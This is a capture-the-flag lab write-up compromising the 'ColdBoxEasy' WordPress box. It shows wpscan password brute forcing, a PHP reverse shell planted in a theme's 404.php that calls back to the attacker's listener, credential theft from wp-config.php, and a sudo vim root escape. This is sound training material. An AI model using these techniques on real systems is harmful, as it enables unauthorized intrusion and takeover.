







# Proving Grounds Play - ColdBoxEasy

#### Ip: 192.168.220.248
#### Name: ColdBoxEasy
#### Rating: Easy
#### Community Rating: Easy

------------------------------------------------

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ sudo nmap -p- -sC -sV --min-rate=10000 192.168.167.239
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-24 12:57 CDT
Nmap scan report for 192.168.167.239
Host is up (0.071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.82 seconds
```

Looking at the page on port 80 we find it is running WordPress.



Kicking off some scanning against the site using wpscan, we find some usernames:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ wpscan --url 192.168.167.239 --enumerate vp,u,vt,tt
```




Directory fuzzing reveals: http://192.168.167.239/hidden/ which contains an interesting message:

```

U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

### Exploitation

From here we find we can bruteforce user c0ldd's password using wpscan:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ wpscan --url http://192.168.167.239/wp-login.php --usernames c0ldd --passwords /usr/share/wordlists/rockyou.txt
<SNIP>
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Let's use this to login:



We can now grab a copy of PentestMonkey's famous php-reverse-shell.php and update the variables for our attacking box:

```php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.171';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Let's then copy the script and go to Appearance > Themes > Editor, and overwrite the 404.php code.



From here we can set up a nc listener and navigate to http://192.168.167.239/wp-content/themes/twentyfifteen/404.php to trigger our shell.

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ nc -lnvp 9001                   
listening on [any] 9001 ...
connect to [192.168.45.171] from (UNKNOWN) [192.168.167.239] 33962
Linux ColddBox-Easy 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:31:49 up 37 min,  0 users,  load average: 0.00, 0.08, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
ColddBox-Easy
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ 
```

We can now grab the local.txt flag:



### Privilege Escalation

Looking at the wp-config.php file in `/var/www/html` we find some credentials:



We can use these to `su c0ldd`:

```
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
Password: 
c0ldd@ColddBox-Easy:/var/www/html$ whoami
c0ldd
```

Seeing what c0ldd can run with elevated permissions:

```
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Cool, we've got a few options here, let's exploit vim for a root shell:

Let's head to gtfobins and grab the command we'll need: https://gtfobins.github.io/gtfobins/vim/#sudo

```
sudo /usr/bin/vim -c ':!/bin/sh'
```

We can now grab the root flag:



Thanks for following along!

-Ryan

